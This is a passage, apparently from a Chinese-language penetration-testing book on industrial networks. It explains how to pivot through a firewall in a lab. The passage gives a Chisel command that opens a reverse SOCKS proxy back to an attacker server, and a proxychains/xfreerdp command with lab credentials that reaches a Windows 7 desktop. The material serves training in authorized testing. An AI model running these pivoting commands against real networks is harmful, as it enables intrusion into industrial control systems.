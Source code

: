 图 11.60 – Chisel 服务器

在我们的 Windows10 主机上，我们希望运行以下 **client** 命令来创建反向代理连接：

chisel.exe client 172.16.0.6:5555 R:socks &

再次去掉 **&** 符号来排查连接问题。你应该能看到以下输出：

![图 11.61 – 反向代理](img/B16321_11_061.jpg)

图 11.61 – 反向代理

正如你可能已经注意到的，当我们运行 **server** 命令后，最后一行输出显示反向 socks 代理正在监听 **1080** 端口，如下所示：

![图 11.62 – 反向代理监听器](img/B16321_11_062.jpg)

图 11.62 – 反向代理监听器

为了使用 **proxychains**，我们需要将配置中的端口从 **9000**（用于 SSH 隧道）更改为 **1080**，这是 Chisel 创建的端口。一旦端口创建完成，重新运行 **proxychains** 命令：

proxychains xfreerdp /u:operator1 /p:Password1 /v:172.16.0.7

如果一切正常，你应该能够进入一个经过身份验证的 Windows 7 远程桌面会话：

![图 11.63 – 使用 proxychains 的 Chisel 反向 shell](img/B16321_11_063.jpg)

图 11.63 – 使用 proxychains 的 Chisel 反向 shell

如你所见，通过受信任的工作站、绕过防火墙、进入操作网络，再通过几个简单的命令到达工作站是相当简单的。拥有完全认证的会话可以让我们对操作网络造成破坏，如果我们有意为之，且这符合我们的规则。为此，我们使用了**proxychains**，结合 SSH 隧道，深入网络获取立足点，但我们需要 Windows 10 主机上安装 SSH。为了绕过 SSH 安装要求，我们使用了 Chisel 来获取访问权限。

这些技术展示了单跳的可用性。希望你进入的工业网络较为平坦，这样就足够了，但我知道深度防御得到了广泛应用，这意味着我们必须提升自己的技术，进行多跳渗透。我会把如何使用我们刚刚测试过的工具进行多跳渗透的研究留给你。

# 总结

在本章中，我们探讨了收集凭证和票据的各种工具和技术。我们利用捕获到的*战利品*提升了权限，然后通过我们在本章第一节中安装并配置的防火墙进行横向渗透。我知道我之前说过，但我再重复一遍：正如我已故的朋友特雷弗所说，学习如何进行横向渗透是渗透测试员最基本的技能之一，且永远不要忘记 Smashburger。希望在阅读和完成本章的过程中，你能更好地理解为何拥有一个实验室来启动和拆除系统、在其中穿梭并复制客户的环境是如此重要。

现在我们已经深入到操作网络的一侧，下一章我们将通过使用 Ignition SCADA 的用户界面和脚本与物理过程进行交互。
